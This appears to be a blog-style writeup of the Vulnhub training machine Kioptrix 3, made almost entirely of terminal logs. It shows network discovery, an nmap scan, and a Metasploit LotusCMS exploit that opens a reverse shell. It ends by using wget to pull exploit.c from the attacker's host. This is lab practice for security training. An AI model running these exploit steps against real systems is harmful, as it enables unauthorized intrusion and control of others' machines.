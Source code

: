 ```yaml
---
layout: single
title: Kioptrix 3!
description: Writeup for Kiotrix 3 from Vulnhub
categories: [oscp] 

---
```


summer@kali:~$ sudo netdiscover -i eth0 -r 10.0.0./24

 Currently scanning: Finished!   |   Screen View: Unique Hosts                                     
                                                                                                   
 7 Captured ARP Req/Rep packets, from 7 hosts.   Total size: 420                                   
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 10.0.0.1        18:9c:27:b2:74:fd      1      60  ARRIS Group, Inc.
 10.0.0.77       14:4f:8a:d6:05:a1      1      60  Intel Corporate                                 
 10.0.0.26       34:4d:f7:5e:dd:60      1      60  LG Electronics (Mobile Communications)          
 10.0.0.174      94:65:2d:8c:2f:7f      1      60  OnePlus Technology (Shenzhen) Co., Ltd          
 10.0.0.236      00:0c:29:4b:25:d5      1      60  VMware, Inc.                                    
 10.0.0.232      14:10:9f:e6:43:99      1      60  Apple, Inc.                                     
 10.0.0.254      18:9c:27:b2:74:fe      1      60  ARRIS Group, Inc.  




Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-16 22:47 EST
Nmap scan report for 10.0.0.236
Host is up (0.0010s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Ligoat Security - Got Goat? Security ...
MAC Address: 00:0C:29:4B:25:D5 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel




msf > use exploit/multi/http/lcms_php_exec 
msf exploit(multi/http/lcms_php_exec) > show options

Module options (exploit/multi/http/lcms_php_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The target address
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /lcms/           yes       URI
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic LotusCMS 3.0


msf exploit(multi/http/lcms_php_exec) > set RHOST 10.0.0.236
RHOST => 10.0.0.236
msf exploit(multi/http/lcms_php_exec) > set RPORT 80
RPORT => 80
msf exploit(multi/http/lcms_php_exec) > set URI /
URI => /
msf exploit(multi/http/lcms_php_exec) > set payload generic/shell_reverse_tcp 
payload => generic/shell_reverse_tcp
msf exploit(multi/http/lcms_php_exec) > exploit

[-] Exploit failed: The following options failed to validate: LHOST.
[*] Exploit completed, but no session was created.
msf exploit(multi/http/lcms_php_exec) > set LHOST 10.0.0.241
LHOST => 10.0.0.241
msf exploit(multi/http/lcms_php_exec) > exploit

[*] Started reverse TCP handler on 10.0.0.241:4444 
[*] Using found page param: /index.php?page=index
[*] Sending exploit ...
[*] Command shell session 1 opened (10.0.0.241:4444 -> 10.0.0.236:54037) at 2018-12-16 23:01:40 -0500

whoami
www-data

wget http://10.0.0.241:8000/exploit.c

